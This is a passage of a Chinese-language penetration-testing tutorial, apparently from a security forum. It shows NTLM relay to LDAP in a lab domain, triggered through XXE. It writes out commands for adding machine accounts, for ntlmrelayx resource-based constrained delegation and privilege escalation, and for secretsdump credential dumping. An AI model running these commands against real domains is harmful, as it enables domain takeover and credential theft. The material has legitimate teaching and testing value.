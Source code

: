 如果中继到的机器是2016及以上（这里添加一个域内机器为2016），可以看到调用rpc执行是失败的（rpc默认在这些机器上被禁用）  
![](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-1358eca090e32d65f65fdab5aef318fc85665c97.png)  
那么遇到这种情况如何解决？  
就引出下文的基于资源的约束委派。

#### 二、中继到ldap，基于资源的约束委派

获取到域内一个用户的凭据，账号密码为fbi/p@ssw0rd，此时通过这个账号去添加机器账号

```php
python3 addcomputer.py -method SAMR -dc-ip 192.168.20.246 -computer-name 7niuzi -computer-pass 123456 "fbi.gov/fbi:p@ssw0rd"
```

![](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-ff6005add32fd3dad64592b830f99d0d5a47f46e.png)

![](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-059d6101d98488734dfd348680d335e0f3d49c82.png)

```php
python3 ntlmrelayx.py -t ldap://dc01.fbi.gov -debug -ip 192.168.20.151 --delegate-access --remove-mic -smb2support --escalate-user 7niu\$
```

中继到ldap之后，刚开始使用ntlmrelayx的时候，总是默认导出ldap的信息，同时因为admanager。此工具尝试从域中收集尽可能更多的信息，包括用户，其组成员身份，域计算机和域策略。  
![](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-2198a8a4aa4b27af57c1d575199241c05f0bbd8f.png)  
除了收集信息之外，还可以通过LDAP写入目录。如果ntlmrelayx遇到具有域管理员权限的用户，它将创建一个新的域管理员帐户，该帐户立即使攻击者可以完全控制域  
![](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-bdfea9baed8d87dd4247cc658226388626a46b1d.png)  
这里自动将新建的机器账号添加到最高的域管组中，此时该机器账户具有dcsync功能。

```php
impacket-secretsdump 7niu\$:123456@dc01.fbi.gov
```

![](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-2663f0fd4bf7aa2eadae63e45d95f8867916e88b.png)

如果权限不够的情况下，或者忽略掉工具ntlmrelayx给我们带来的判断权限和自动提升为Enterprise admins组的成员，进行正常的基于资源的约束委派攻击来获取w12主机的权限。  
再添加一个机器账号。  
![](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-938417168d734ded7a5b787fffe806e5bce35452.png)

```php
impacket-ntlmrelayx -t ldap://192.168.20.246 -debug -ip 192.168.20.151 --delegate-access --no-dump --no-da --no-acl --no-validate-privs --escalate-user dandan\$
参数功能相关:
--delegate-access 将中继计算机帐户的访问权限委派给指定帐户
--no-dump         不要尝试转储 LDAP 信息
--no-da           不要尝试添加域管
--no-acl          禁用 ACL 攻击
--no-validate-privs不要尝试枚举权限，假设权限被授予通过 ACL 攻击升级用户
```

以上通过这些参数来让他仅执行一个基于资源的约束委派，不需要通过枚举之前的枚举权限之类或者acl之类的攻击操作。  
![](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-3a3cf1f9f0d8da7a16d38d3ee05791aee2abfa95.png)  
burpsuite发包触发xxe，目标机发起http请求。  
![](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-df32c57998c00f23ed23ea53c5fbaaaefdef22ab.png)  
将凭据中继到域控服务器的LDAP服务上设置基于资源约束委派成功。  
![](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-8b70d51abe3bfbf37e72ff13ad240fd56f456a3b.png)  
票据申请
